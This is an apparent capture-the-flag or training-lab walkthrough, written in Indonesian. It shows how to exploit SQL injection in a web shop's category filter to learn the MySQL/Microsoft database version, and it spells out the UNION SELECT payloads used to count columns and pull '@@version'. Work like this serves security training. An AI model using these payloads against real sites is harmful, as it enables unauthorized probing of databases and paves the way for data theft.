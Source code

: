 # SQL injection attack, querying the database type and version on MySQL and Microsoft

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

bagian sebelumnya kita sudah bisa melihat versi database oracle.

pada lba ini, kita akan coba exploitasi SQL Injection untuk melihat versi database untum MySQL dan Microsoft.

caranya mirip seperti sebelumnya, pilih salah satu category kemudian tentukan jumlah kolom terlebih dahulu dengan payload berikut di akhir URL: `/filter?category=Pets'+UNION+SELECT+'a'--+` .

jika responnya error, tambahkan kolom 1 lagi.

`/filter?category=Pets'+UNION+SELECT+'a','b'--+`&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

respon halaman seperti di atas berarti payload yang kita masukkan sudah memenuhi kondisi jumlah kolom, yaitu 2.

modifikasi payload untuk mendapatkan versi database: `/filter?category=Pets'+UNION+SELECT+@@version,+NULL--+`&#x20;

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

di bagian paling bawah sudah berhasil menampilkan versi dari database.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>solved!</p></figcaption></figure>
